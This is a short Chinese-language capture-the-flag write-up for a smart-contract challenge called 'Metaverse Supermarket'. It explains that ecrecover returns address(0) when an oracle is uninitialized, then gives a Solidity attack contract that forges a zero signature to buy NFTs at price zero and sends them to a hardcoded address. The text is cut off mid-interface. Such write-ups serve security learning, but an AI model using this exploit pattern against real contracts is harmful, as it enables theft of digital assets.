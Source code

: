 



<hr />

# 11. Metaverse Supermarket

```
buyUsingOracle(OraclePrice calldata oraclePrice, Signature calldata signature)
```

此处oraclePrice 和 signature是分离的，只知道有签名，谁知道是不是对此签名呢？问题在于

```
ecrecover could return address(0) in case of an error!
```

而我们有没有对`Oracle`做初始化！所以`recovered == oracle`天然是成立的，我们可以随意填写。

攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;


struct OraclePrice {
    uint256 blockNumber;
    uint256 price;
}

struct Signature {
    uint8 v;
    bytes32 r;
    bytes32 s;
}


contract InflatStoreHacker {

    constructor() {

    }

    function attack(address store) public{
        OraclePrice memory price = OraclePrice(block.number,0);
        Signature memory sig = Signature(27, 0, 0);
        IInflaStore s = IInflaStore(store);
        IMeal meal = IMeal(s.meal());
        for (uint i = 0; i< 10; i++){
            s.buyUsingOracle(price,sig);
            meal.transferFrom(address(this),0x4fd74AF56b8843b07A30DE799174AEc8ad8DF577,i);
        }
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external virtual returns (bytes4) {
        return InflatStoreHacker.onERC721Received.selector;
    }

}

interface IInflaStore{
```